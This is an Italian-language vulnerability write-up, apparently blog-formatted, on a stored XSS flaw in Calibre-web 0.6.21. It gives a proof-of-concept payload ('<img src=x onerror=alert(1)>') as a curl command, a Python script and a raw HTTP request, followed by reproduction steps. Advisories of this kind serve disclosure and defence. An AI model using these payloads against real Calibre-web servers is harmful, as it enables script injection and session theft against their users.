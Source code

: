 ```yaml
---
layout: post
title: '[webapps] Calibre-web 0.6.21 - Stored XSS' 
date: 2024-08-23
categories: [security, ransomware]
---
```


```markdown
# [webapps] Calibre-web 0.6.21 - Stored XSS

## Introduzione

Il software Calibre-web nella sua versione 0.6.21 presenta una vulnerabilità di tipo Stored XSS. Si tratta di un bug che può essere utilizzato da un attaccante per iniettare ed eseguire codice Javascript all'interno del browser delle vittime.

## Dettagli della Vulnerabilità

La vulnerabilità si manifesta nel momento in cui un utente inserisce un libro nel sistema. Se la descrizione del libro inserita contiene codice Javascript, questo verrà eseguito ogni volta che la pagina del libro sarà visualizzata. Questa vulnerabilità riguarda la versione 0.6.21 del software Calibre-web.

## Esempio di Payload Semplice

```bash
curl -X POST -d 'book_desc=<img src=x onerror=alert(1)>' http://localhost:8083/newbook
```

## Conversione in Python del Payload Semplice

```python
import requests

url = 'http://localhost:8083/newbook'
data = {'book_desc': '<img src=x onerror=alert(1)>'}

response = requests.post(url, data=data)
```

## Esempio di Payload Avanzato

Non disponibile.

## Conversione in Python del Payload Avanzato

Non disponibile.

## Spiegazione Tecnica

Il comando `curl` invia una richiesta POST HTTP al server Calibre-web, con un parametro `book_desc` contenente un tag `img` che, non avendo un'immagine valida da mostrare, genera un errore. L'handler `onerror` intercetta l'errore e mostra un avviso con il messaggio '1'.

Lo script Python fa la stessa cosa, utilizzando la libreria `requests` per inviare la richiesta POST.

## Procedura per Riprodurre la Vulnerabilità

1. Avviare il server Calibre-web.
2. Inviarci il comando `curl` o eseguire lo script Python.
3. Navigare alla pagina del nuovo libro per constatare l'esecuzione del codice Javascript.

## Richiesta HTTP

```http
POST /newbook HTTP/1.1
Host: localhost:8083
Content-Type: application/x-www-form-urlencoded

book_desc=<img src=x onerror=alert(1)>
```

## Impatto della Vulnerabilità

Un attaccante può utilizzare questa vulnerabilità per eseguire codice Javascript arbitrario nel browser di ogni utente che visualizza la pagina del libro. Ciò potrebbe portare a molteplici scenari di attacco, come il furto di sessioni utente o l'installazione di malware.

## Patch e Mitigazioni

Al momento, non si è a conoscenza di patch o mitigazioni ufficiali per questa vulnerabilità.

## Conclusione

La presenza di questa vulnerabilità sottolinea l'importanza di sanificare correttamente i dati inseriti dagli utenti. E' essenziale che gli sviluppatori prendano seriamente in considerazione la sicurezza e mettano in atto tutte le misure necessarie per proteggere i loro utenti da potenziali attacchi.
```

